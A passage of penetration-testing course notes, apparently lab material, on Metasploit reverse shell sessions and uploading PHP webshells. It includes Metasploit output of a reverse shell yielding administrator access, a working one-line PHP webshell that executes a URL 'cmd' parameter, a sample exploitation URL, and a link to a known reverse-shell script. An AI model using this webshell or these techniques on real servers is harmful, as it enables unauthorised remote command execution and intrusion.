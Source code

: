 \[+] Command shell session 1 opened (10.11.12.223:443 -> 10.10.2.57:54226) at 2020-09-12 21:18:35 +0100

* multi/handler originally backgrounded.
* Use sessions 1 to foreground session again.

msf6 exploit(multi-handler) > session 1

\[+] Starting interation with 1...

* Reverse shell established.

whoami

win-shells\administrator

* Use sessions to see all active sessions.
* Use sessions \<number> to select appropriate session to foreground.

### **WebShells** <a href="#ffmiv4x83lep" id="ffmiv4x83lep"></a>

* May encounter websites that allow upload of executable files.
  * Ideally use this opportunity to upload code that would activate a reverse or bind shell.
  * Sometimes this is not possible.
  * Instead upload a webshell.
* Script that runs inside a web server (usually in a language such as PHP or ASP) and executes code on remote server.
* Commands entered into the webpage.
  * E.g. through a HTML form or directly as arguments in the URL.
* Commands executed by webshell script with results returned and written to the page.
* Can be extremely useful if there are firewalls in place.
* Stepping stone into a fully fledged reverse or bind shell.

\<?php

// Take GET parameter in the URL and execute it with shell\_exec()

echo "\<pre>" . shell\_exec($\_GET\["cmd"]) . "\</pre>";

?>

* Any commands entered in the URL after ?cmd= will be executed on the system.
* 'pre' elements are to ensure that the results are formatted correctly on the page.
* Use a GET parameter 'cmd' with the command 'ifconfig' to return the network information of the box.

http://10.10.84.199/uploads/shell.php?cmd=ifconfig

* Entering ifconfig (used to check the network interfaces on a Linux target) into the URL executed the command on the system and returned the results.
  * This would work for any other command (whoami, hostname, arch, etc).
* Variety of webshells available on Kali by default at /usr/share/webshells.
  * includes the infamous[ PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

\<?php
